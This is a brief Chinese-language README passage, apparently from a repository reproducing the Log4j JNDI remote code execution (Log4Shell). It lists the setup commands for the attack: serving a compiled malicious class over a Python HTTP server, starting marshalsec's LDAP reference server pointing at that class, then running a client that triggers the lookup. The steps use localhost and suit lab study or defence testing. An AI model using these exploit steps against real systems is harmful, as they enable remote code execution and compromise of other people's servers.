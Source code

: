 
1) 启动Http Server    
cd到`Log4JRemoteClz.class`编译后所在target路径，执行    
`python -m SimpleHTTPServer 8888`

2) 启动JNDI Ref Server    
cd到`resources`路径，执行    
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Log4JRemoteClz`

3) 执行ClientRun.java代码

